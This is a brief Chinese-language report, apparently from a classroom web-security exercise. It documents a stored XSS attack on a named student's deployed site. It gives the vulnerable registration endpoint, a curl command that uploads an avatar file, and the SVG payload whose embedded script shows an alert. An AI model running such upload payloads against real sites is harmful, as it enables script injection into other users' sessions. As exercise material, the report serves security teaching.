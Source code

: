 |||
|---|---|
|**攻擊者學號**|匿名|
|**受害者學號**|r13921a20|
|**受害者網站**|[https://pleasedonthurtme.vercel.app/](https://pleasedonthurtme.vercel.app/)|
|**攻擊手段**|XSS|
|**漏洞位置**|[https://ia-midtermweb.onrender.com/api/register](https://ia-midtermweb.onrender.com/api/register)|
|**攻擊指令**|`curl -X POST "https://ia-midtermweb.onrender.com/api/register"`<br>`-F "username=omg" -F "password=omg" -F "avatar=@payload.svg`<br>**payload.svg:**<br>`<svg xmlns="http://www.w3.org/2000/svg"><script>alert(document.domain)</script></svg>`|

**成功攻擊截圖:**
![](img/1.png){height=350}
![](img/2.png){height=350}